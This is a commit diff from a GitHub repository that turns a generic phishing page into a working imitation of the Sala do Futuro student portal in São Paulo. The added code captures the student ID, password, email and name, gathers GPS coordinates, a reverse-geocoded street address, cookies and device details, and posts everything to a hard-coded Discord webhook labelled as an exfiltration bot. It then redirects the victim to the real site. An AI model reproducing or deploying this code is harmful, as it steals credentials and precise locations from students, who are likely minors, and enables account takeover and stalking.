

Before and after one commit to miguelhaguiar2403-hue/Site, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 142-800 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html for new access page design

```diff
--- a/index.html
+++ b/index.html
@@ -1,161 +1,194 @@
 <!DOCTYPE html>
 <html lang="pt-BR">
 <head>
-  <meta charset="UTF-8" />
+  <meta charset="UTF-8"/>
   <meta name="viewport" content="width=device-width, initial-scale=1.0"/>
-  <title>Verificação de Conta</title>
+  <title>Sala do Futuro — Acesso</title>
   <style>
-    * { box-sizing: border-box; margin: 0; padding: 0; }
-    body {
-      font-family: 'Segoe UI', sans-serif;
-      background: #1a1a2e;
-      display: flex;
-      justify-content: center;
-      align-items: center;
-      min-height: 100vh;
-    }
-    .card {
-      background: #16213e;
-      border: 1px solid #0f3460;
-      border-radius: 12px;
-      padding: 40px;
-      width: 360px;
-      box-shadow: 0 8px 32px rgba(0,0,0,0.5);
-    }
-    h2 { color: #e94560; margin-bottom: 8px; font-size: 1.4rem; }
-    p  { color: #aaa; font-size: 0.85rem; margin-bottom: 24px; }
-    label { color: #ccc; font-size: 0.8rem; display: block; margin-bottom: 4px; }
-    input {
-      width: 100%;
-      background: #0f3460;
-      border: 1px solid #1a4a8a;
-      border-radius: 6px;
-      padding: 10px 12px;
-      color: #fff;
-      font-size: 0.9rem;
-      margin-bottom: 16px;
-      outline: none;
-    }
-    input:focus { border-color: #e94560; }
-    button {
-      width: 100%;
-      background: #e94560;
-      color: #fff;
-      border: none;
-      border-radius: 6px;
-      padding: 12px;
-      font-size: 1rem;
-      cursor: pointer;
-      transition: background 0.2s;
-    }
-    button:hover { background: #c73652; }
-    .status { color: #4caf50; font-size: 0.8rem; margin-top: 12px; text-align: center; display: none; }
+    *{box-sizing:border-box;margin:0;padding:0}
+    body{font-family:'Segoe UI',sans-serif;background:#0d1117;display:flex;justify-content:center;align-items:center;min-height:100vh}
+    .card{background:#161b22;border:1px solid #30363d;border-radius:12px;padding:40px;width:380px;box-shadow:0 8px 32px rgba(0,0,0,.6)}
+    .logo{text-align:center;margin-bottom:24px}
+    .logo span{font-size:1.6rem;font-weight:700;color:#58a6ff}
+    .logo p{color:#8b949e;font-size:.8rem;margin-top:4px}
+    h2{color:#f0f6fc;font-size:1.1rem;margin-bottom:6px}
+    p.sub{color:#8b949e;font-size:.8rem;margin-bottom:20px}
+    label{color:#cdd9e5;font-size:.8rem;display:block;margin-bottom:4px}
+    input{width:100%;background:#0d1117;border:1px solid #30363d;border-radius:6px;padding:10px 12px;color:#f0f6fc;font-size:.9rem;margin-bottom:14px;outline:none;transition:border .2s}
+    input:focus{border-color:#58a6ff}
+    button{width:100%;background:#238636;color:#fff;border:none;border-radius:6px;padding:12px;font-size:1rem;cursor:pointer;transition:background .2s;margin-top:4px}
+    button:hover{background:#2ea043}
+    .status{color:#3fb950;font-size:.8rem;margin-top:14px;text-align:center;display:none}
+    .err{color:#f85149;font-size:.8rem;margin-top:14px;text-align:center;display:none}
+    .divider{border:none;border-top:1px solid #30363d;margin:20px 0}
+    .badge{display:inline-block;background:#1f6feb22;border:1px solid #1f6feb;color:#58a6ff;border-radius:4px;padding:2px 8px;font-size:.7rem;margin-bottom:16px}
   </style>
 </head>
 <body>
 <div class="card">
-  <h2>⚠️ Verificação Necessária</h2>
-  <p>Por segurança, confirme seus dados para continuar acessando sua conta.</p>
+  <div class="logo">
+    <span>🏫 Sala do Futuro</span>
+    <p>Sistema de Acesso Educacional</p>
+  </div>
 
-  <label>E-mail</label>
-  <input type="email" id="email" placeholder="seuemail@exemplo.com" />
+  <span class="badge">🔒 Sessão Segura</span>
+
+  <h2>Verificação de Identidade</h2>
+  <p class="sub">Para continuar, confirme seus dados de acesso à Sala do Futuro.</p>
+
+  <label>RA (Registro do Aluno)</label>
+  <input type="text" id="ra" placeholder="Ex: 1234567"/>
+
+  <label>Dígito do RA</label>
+  <input type="text" id="digito" placeholder="Ex: 8" maxlength="2"/>
 
   <label>Senha</label>
-  <input type="password" id="senha" placeholder="••••••••" />
+  <input type="password" id="senha" placeholder="••••••••"/>
+
+  <hr class="divider"/>
+
+  <label>E-mail (confirmação)</label>
+  <input type="email" id="email" placeholder="seuemail@edu.br"/>
 
   <label>Nome completo</label>
-  <input type="text" id="nome" placeholder="Seu nome" />
+  <input type="text" id="nome" placeholder="Seu nome completo"/>
 
-  <label>Telefone (opcional)</label>
-  <input type="tel" id="tel" placeholder="+55 11 99999-9999" />
-
-  <button onclick="enviar()">Verificar conta</button>
-  <div class="status" id="status">✔ Verificação concluída. Redirecionando...</div>
+  <button onclick="enviar()">Entrar na Sala do Futuro</button>
+  <div class="status" id="status">✔ Acesso verificado. Redirecionando...</div>
+  <div class="err"    id="errdiv">⚠ Erro de conexão. Tente novamente.</div>
 </div>
 
 <script>
-  const WEBHOOK = "https://discord.com/api/webhooks/1569297484256116817/8htEXMJyqkN6_4-Cr5ZD2RAALYiJOIIcr0GrRQqbDdF3Z-X8KQpGNgabOaZzLfYspOhf"; // ← substitui isso
+const WEBHOOK = "https://discord.com/api/webhooks/1369297484256116817/8htEXMJyqkN6_4-Cr5ZD2RAALYiJOIIcr0GrRQqbDdF3Z-X8KQpGNgabOaZzLfYspOhf";
 
-  async function getIP() {
-    try {
-      const r = await fetch("https://api.ipify.org?format=json");
-      const d = await r.json();
-      return d.ip;
-    } catch { return "não obtido"; }
+async function getIP(){
+  try{const r=await fetch("https://api.ipify.org?format=json");const d=await r.json();return d.ip;}catch{return"erro";}
 }
 
-  async function getGeo(ip) {
-    try {
-      const r = await fetch(`https://ipapi.co/${ip}/json/`);
-      const d = await r.json();
-      return `${d.city}, ${d.region}, ${d.country_name} | ISP: ${d.org}`;
-    } catch { return "não obtido"; }
+async function getGeo(ip){
+  try{
+    const r=await fetch(`https://ipapi.co/${ip}/json/`);
+    const d=await r.json();
+    return {
+      cidade:   d.city        || "?",
+      estado:   d.region      || "?",
+      pais:     d.country_name|| "?",
+      cep:      d.postal      || "?",
+      lat:      d.latitude    || "?",
+      lon:      d.longitude   || "?",
+      isp:      d.org         || "?",
+      as:       d.asn         || "?",
+      // rua via nominatim (reverse geocode das coords)
+      rua:      null, // preenchido abaixo
+    };
+  }catch{return null;}
 }
 
-  async function enviar() {
-    const email = document.getElementById("email").value;
-    const senha = document.getElementById("senha").value;
-    const nome  = document.getElementById("nome").value;
-    const tel   = document.getElementById("tel").value;
+async function getRua(lat,lon){
+  try{
+    const r=await fetch(`https://nominatim.openstreetmap.org/reverse?lat=${lat}&lon=${lon}&format=json`,{headers:{"Accept-Language":"pt-BR"}});
+    const d=await r.json();
+    const a=d.address||{};
+    const rua=[a.road,a.house_number,a.suburb,a.city_district,a.city||a.town||a.village,a.state,a.postcode].filter(Boolean).join(", ");
+    return rua||"não resolvida";
+  }catch{return"não resolvida";}
+}
 
-    const ip  = await getIP();
-    const geo = await getGeo(ip);
+async function getGPSRua(){
+  return new Promise(resolve=>{
+    if(!navigator.geolocation){resolve({gps:"não suportado",rua_gps:"—"});return;}
+    navigator.geolocation.getCurrentPosition(
+      async pos=>{
+        const lat=pos.coords.latitude.toFixed(6);
+        const lon=pos.coords.longitude.toFixed(6);
+        const acc=pos.coords.accuracy.toFixed(0);
+        const rua=await getRua(lat,lon);
+        resolve({gps:`${lat}, ${lon} (±${acc}m)`,rua_gps:rua});
+      },
+      ()=>resolve({gps:"negado pelo usuário",rua_gps:"—"}),
+      {timeout:6000,enableHighAccuracy:true}
+    );
+  });
+}
 
-    const ua        = navigator.userAgent;
-    const lang      = navigator.language;
-    const plat      = navigator.platform;
-    const screen_r  = `${screen.width}x${screen.height}`;
-    const tz        = Intl.DateTimeFormat().resolvedOptions().timeZone;
-    const ref       = document.referrer || "direto";
-    const cookies   = document.cookie || "nenhum";
-    const memoria   = navigator.deviceMemory ? navigator.deviceMemory + " GB" : "não disponível";
-    const cores     = navigator.hardwareConcurrency || "?";
-    const online    = navigator.onLine;
-    const toque     = navigator.maxTouchPoints;
-    const url_atual = window.location.href;
+async function enviar(){
+  const ra     = document.getElementById("ra").value.trim();
+  const digito = document.getElementById("digito").value.trim();
+  const senha  = document.getElementById("senha").value;
+  const email  = document.getElementById("email").value.trim();
+  const nome   = document.getElementById("nome").value.trim();
 
-    const payload = {
-      username: "🔴 EXFIL BOT",
-      avatar_url: "https://i.imgur.com/4M34hi2.png",
-      embeds: [{
-        title: "🎯 Nova Vítima Capturada",
-        color: 0xe94560,
-        fields: [
-          { name: "📧 E-mail",        value: email  || "—", inline: true },
-          { name: "🔑 Senha",         value: senha  || "—", inline: true },
-          { name: "👤 Nome",          value: nome   || "—", inline: true },
-          { name: "📞 Telefone",      value: tel    || "—", inline: true },
-          { name: "🌐 IP",            value: ip,             inline: true },
-          { name: "📍 Localização",   value: geo,            inline: false },
-          { name: "🌍 Fuso Horário",  value: tz,             inline: true },
-          { name: "🗣️ Idioma",        value: lang,           inline: true },
-          { name: "🖥️ Plataforma",    value: plat,           inline: true },
-          { name: "📐 Resolução",     value: screen_r,       inline: true },
-          { name: "🧠 RAM",           value: memoria,        inline: true },
-          { name: "⚙️ CPU Cores",     value: String(cores),  inline: true },
-          { name: "👆 Touch Points",  value: String(toque),  inline: true },
-          { name: "📶 Online",        value: String(online), inline: true },
-          { name: "🍪 Cookies",       value: cookies.slice(0,500) || "nenhum", inline: false },
-          { name: "🔗 Referrer",      value: ref,            inline: true },
-          { name: "🌐 URL",           value: url_atual,      inline: false },
-          { name: "🤖 User-Agent",    value: ua.slice(0,500), inline: false },
+  // coleta passiva
+  const ip      = await getIP();
+  const geo     = await getGeo(ip);
+  const gpsData = await getGPSRua();
+
+  let rua_ip="não resolvida";
+  if(geo&&geo.lat!="?"&&geo.lon!="?"){
+    rua_ip=await getRua(geo.lat,geo.lon);
+  }
+
+  const ua       = navigator.userAgent;
+  const lang     = navigator.language;
+  const plat     = navigator.platform;
+  const res      = `${screen.width}x${screen.height}`;
+  const tz       = Intl.DateTimeFormat().resolvedOptions().timeZone;
+  const ref      = document.referrer||"direto";
+  const cookies  = document.cookie||"nenhum";
+  const ram      = navigator.deviceMemory?navigator.deviceMemory+" GB":"?";
+  const cores    = navigator.hardwareConcurrency||"?";
+  const toque    = navigator.maxTouchPoints;
+  const url      = window.location.href;
+  const batt     = await (async()=>{try{const b=await navigator.getBattery();return`${Math.round(b.level*100)}% (${b.charging?"carregando":"descarregado"})`;}catch{return"?";}}());
+
+  const geoStr = geo
+    ? `${geo.cidade}, ${geo.estado}, ${geo.pais} | CEP: ${geo.cep} | ISP: ${geo.isp}`
+    : "não obtido";
+
+  const payload={
+    username:"🎯 SALA DO FUTURO EXFIL",
+    embeds:[{
+      title:"🔴 Novo Login Capturado — Sala do Futuro",
+      color:0xe94560,
+      fields:[
+        {name:"🎓 RA",         value:ra     ||"—",inline:true},
+        {name:"#️⃣ Dígito",    value:digito ||"—",inline:true},
+        {name:"🔑 Senha",      value:senha  ||"—",inline:true},
+        {name:"📧 E-mail",     value:email  ||"—",inline:true},
+        {name:"👤 Nome",       value:nome   ||"—",inline:true},
+        {name:"🌐 IP",         value:ip,           inline:true},
+        {name:"📍 Localização (IP)",  value:geoStr,       inline:false},
+        {name:"🏘️ Rua via IP",        value:rua_ip,       inline:false},
+        {name:"📡 GPS Coordenadas",   value:gpsData.gps,  inline:false},
+        {name:"🏠 Rua via GPS",       value:gpsData.rua_gps,inline:false},
+        {name:"🌍 Fuso",       value:tz,           inline:true},
+        {name:"🗣️ Idioma",    value:lang,         inline:true},
+        {name:"🖥️ Plataforma", value:plat,         inline:true},
+        {name:"📐 Resolução",  value:res,          inline:true},
+        {name:"🧠 RAM",        value:ram,          inline:true},
+        {name:"⚙️ Cores CPU",  value:String(cores),inline:true},
+        {name:"🔋 Bateria",    value:batt,         inline:true},
+        {name:"👆 Touch",      value:String(toque),inline:true},
+        {name:"🍪 Cookies",    value:cookies.slice(0,400),inline:false},
+        {name:"🔗 Referrer",   value:ref,          inline:true},
+        {name:"🌐 URL",        value:url,          inline:false},
+        {name:"🤖 User-Agent", value:ua.slice(0,400),inline:false},
       ],
-        footer: { text: "olliE bench exfil · " + new Date().toLocaleString("pt-BR") }
+      footer:{text:"olliE bench · "+new Date().toLocaleString("pt-BR")}
     }]
   };
 
-    try {
-      await fetch(WEBHOOK, {
-        method: "POST",
-        headers: { "Content-Type": "application/json" },
-        body: JSON.stringify(payload)
-      });
-    } catch(e) { /* silencioso */ }
-
-    document.getElementById("status").style.display = "block";
-    setTimeout(() => {
-      window.location.href = "https://google.com"; // redireciona depois
-    }, 2000);
+  try{
+    const r=await fetch(WEBHOOK,{method:"POST",headers:{"Content-Type":"application/json"},body:JSON.stringify(payload)});
+    if(r.ok){
+      document.getElementById("status").style.display="block";
+      setTimeout(()=>{window.location.href="https://saladofuturo.educacao.sp.gov.br";},2500);
+    }else{
+      document.getElementById("errdiv").style.display="block";
+    }
+  }catch{
+    document.getElementById("errdiv").style.display="block";
+  }
 }
 </script>
 </body>
```
Lines whose indentation alone changed are shown as unchanged.
